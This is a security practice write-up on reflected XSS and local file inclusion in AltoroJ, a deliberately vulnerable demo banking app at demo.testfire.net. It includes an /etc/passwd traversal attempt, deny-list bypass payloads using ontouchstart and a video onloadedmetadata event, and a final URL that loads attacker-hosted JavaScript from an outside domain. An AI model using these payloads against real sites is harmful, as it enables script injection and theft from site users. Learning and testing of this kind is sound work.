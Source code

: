 # AltoroJ - Reflected XSS in Error Messages via `Content` Parameter
Jonathan Gregson, 11 September 2020

## Brief
I wanted to practice finding XSS vulnerabilities on web apps and searched for a vulnerable app online. I found the [AltoroJ](https://github.com/hclproducts/AltoroJ) project, but not before finding a hosted version on [demo.testfire.net](http://demo.testfire.net/). This writeup will be about my findings there.

## Discovery
As with every website I visit, my first instinct was to type `test<` into the search bar and see if the angle bracket was left unescaped. As expected, `<` was converted to `&lt;` in the output. Nothing can be that easy anymore.

I quickly got bored of the search bar as nothing was jumping out at me as unusual or dangerous. What did jump out though was that some of the links on the page were to `index.jsp` with HTM pages in the `content` parameter, like `index.jsp?content=inside_contact.htm`. This seemed like something that could be vulnerable to local file inclusion or directory traversal.

I replaced `inside_contact.htm` with `../../../../../../../../../../etc/passwd` in a final attempt at instant gratification, but unfortunately, the application returned a 500 internal server error, referencing a null pointer exception:

![HTTP Status 500 - Internal Server Error](images/http-status-500-internal-server-error.png)

Actually that all sounded very bad. I tried including the non-existent page `rnrgudvdhg.htm` and was given a much more helpful error message of `Failed due to The requested resource (/static/rnrgudvdhg.htm) is not available`. So whatever was passed in the `content` parameter the web app would look for in `static/`. We couldn't traverse back to the root of the file system yet, but could we traverse back out of `static` and include files from the root of the web app?

![http://demo.testfire.net/index.jsp?content=../login.jsp](images/index-jsp-include-login-jsp.png)

Looks like we could. We could even get recursive and have `index.jsp` include itself:

![http://demo.testfire.net/index.jsp?content=../index.jsp](images/index-jsp-include-index-jsp.png)

This was definitely vulnerable to LFI, but I was still craving for XSS. I'll come back to the FLI/traversal aspect of this parameter another time. Focusing on XSS again, I thought the error message from earlier looked interesting. It was like it was returning part of an exception to me without filtering it. I checked if I could include an angle bracket:

![http://demo.testfire.net/index.jsp?content=nothing<here](images/content-nothing-here.png)

It worked! This suggested to me that the application was taking my input and attempting to access system resources without validating it, and then returning exceptions to me, again without validating them. There was so much going on here, but again, back to XSS.

## Exploitation
A user's ability to get angle brackets into the DOM almost guarantees there is an XSS vulnerability or five somewhere. There are just too many things you can abuse in the DOM. I knew I could open HTML tags, so I tried to close one as well, but the output kept coming back sanitized. Some combinations of angle brackets seemed to be sanitized and some did not. Anyway, I decided to focus on the classic `<img src=x onerror=alert(1) foo="` trick and hope the `<img>` tag closed safely somewhere and executed the payload. But what I got back was odd:

![?content=<img%20src=x%20onerror=alert(1)%20foo=" => Failed due to](images/failed-due-to.png)

`Failed due to `? It was like an error was still occurring, but the exception output was being filtered, or there was none at all. I was getting this same result whenever I tried `onload=`, or `onerror=`, but not `onloa=`. In fact, every event attribute I tried caused this, as well as style attributes and a few other things.

I thought there must be something in place which was filtering and blocking my input if it detected certain known malicious strings. I was still able to include image tags and even display remote images, I just couldn't bind any event listeners to them in the HTML tag. It was frustrating -- I knew I was so close. But I also knew that filtering input and output by looking for matches on a deny list is a terrible security approach, because developers inevitably miss something, or fail to keep libraries up to date with the platform and language.

I noted that the site felt "old" overall, and thought that this filter might not be up to date on newer DOM events like touch events. I dropped in `ontouchstart=alert(1` and, with a litter user interaction, it worked!

![?content=%3Cimg%20src=%22//jdgregson.com/cat.png%22%20ontouchstart=alert(1](images/touch-start-xss.gif)

But this wasn't nearly good enough to feed by hunger for XSS. Not only did this require the XSS victim to be using a touch-based device, it also required the user to touch the image, and the site to place the image in a large, touchable spot. I needed a payload that would trigger when the URL was loaded without any further interaction from the user.

I went back to trying to bypass this XSS filter. I tried using null bytes before, in the middle of, or end of the `onload=` attribute, but it always either broke the attribute or was blocked. I found that many or all HTML5 event attributes were not blocked, but most of them don't allow for execution on load, or don't apply to the tags I was using.

Many of the newer HTML5 events could be caused to fire on load, such as media events like `loadstart`, `loadeddata`, and `loadend`. But unfortunately, none of these events are fired by classic HTML tags like `<img>`. To make matters worse, the tags that will fire them are actually supposed to be used as a nested set of tags like:

    <video onloadstart="alert(1)">
        <source src="video.mp4">
    </video>

I wasn't able to get nearly half of that into a payload before the filter would block it. But I was determined to find a way to use the newer HTML5 tags since I wasn't able to get past the filter in any other meaningful way. Out of desperation, I sent nothing but a `<video>` tag for the parameter and to my amazement, not only did this make it past the filter, but the browser restructured the HTML output so that I had a closing `</video>` tag with spec-compliant text in between:

![?content=<video>](images/video-tag.png)

Why hadn't I tried this an hour before? It would have saved so much time. I tried again with `<video><source>` and the browser properly closed both tags. This was perfect! I added some new, unfiltered HTML5 event attributes and tested the payload:

![?content=%3Cvideo%20onloadedmetadata=%22alert(1)%22%3E%3Csource%20src=%22//jdgregson.com/vid.mp4%22%3E](images/video-onloadedmetadata-xss.png)

It worked! I finally had a one-click reflected XSS payload:

    http://demo.testfire.net/index.jsp?content=%3Cvideo%20onloadedmetadata=%22alert(1)%22%3E%3Csource%20src=%22//jdgregson.com/vid.mp4%22%3E

Taking things a step further, I updated the payload to download a JavaScript file from an attacker-controlled website and add it to the DOM:

    http://demo.testfire.net/index.jsp?content=%3Cvideo%20onloadedmetadata=%22s=document.createElement('script');s.src='//jdgregson.com/xss.js';document.body.appendChild(s)%22%3E%3Csource%20src=%22//jdgregson.com/vid.mp4%22%3E

![Remote XSS payload](images/remote-xss-payload.png)
